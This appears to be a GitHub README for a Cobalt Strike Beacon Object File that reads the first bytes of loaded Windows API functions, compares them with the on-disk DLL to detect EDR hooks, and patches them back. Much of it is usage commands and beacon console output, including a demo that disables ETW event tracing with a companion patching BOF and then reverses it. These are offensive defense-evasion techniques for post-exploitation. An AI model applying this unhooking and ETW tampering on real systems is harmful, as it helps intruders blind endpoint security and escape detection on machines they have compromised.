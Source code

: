 ## API Function Utility BOF

Beacon object file to:
	- Read bytes of loaded module API function
	- Read relevant on-disk DLL and compare functions to identify differencies (e.g. EPP/EDR hooking)
	- Patch functions with the on-disk copy (i.e. API unhooking)

Credit goes to @spottheplanet for the Dll parsing technique: https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time

## Compile

```
make all
```

## Usage

Aggressor script included with the following commands:
	- `read_function` - Output the first 8 bytes of the specified function(s) and output the bytes to the console.
	- `check_function` - Parse the on-disk DLL containing the specified function(s) and confirm the first 8 bytes match. 
	- `patch_function` - As above, but patching the loaded function(s) with the on-disk bytes.

All three utilities can take multiple functions within the same DLL (see `read_function` usage below, as an example)

> NOTE: `check_function` and `patch_function` will only read on-disk DLL once when multiple functions are specified.

### Read Function

```
beacon> read_function ntdll.dll NtCreateProcess
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5116 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71


beacon> read_function ntdll.dll NtCreateProcess,NtCreateFile
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5129 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71
[+] received output:
[*] Reading 8 bytes of NtCreateFile function in ntdll.dll
[+] received output:
b8 55 0
0 0 ba 70 71
```

### Check Function

Demonstrating with ETW BOF: https://github.com/ajpc500/BOFs/tree/main/ETW

```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[+] EtwEventWrite function matches on-disk.

beacon> etw stop
[*] Running ETW patching BOF (@ajpc500)
[+] host called home, sent: 1439 bytes
[+] received output:
Action: stop
Working with 64-bit.
[+] received output:
c3

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.
```

### Patch Function
```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.

beacon> patch_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[*] Patching 8 bytes of EtwEventWrite function in ntdll.dll with on-disk version
[+] received output:
[+] Patched EtwEventWrite function successfully.

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[+] EtwEventWrite function matches on-disk.
```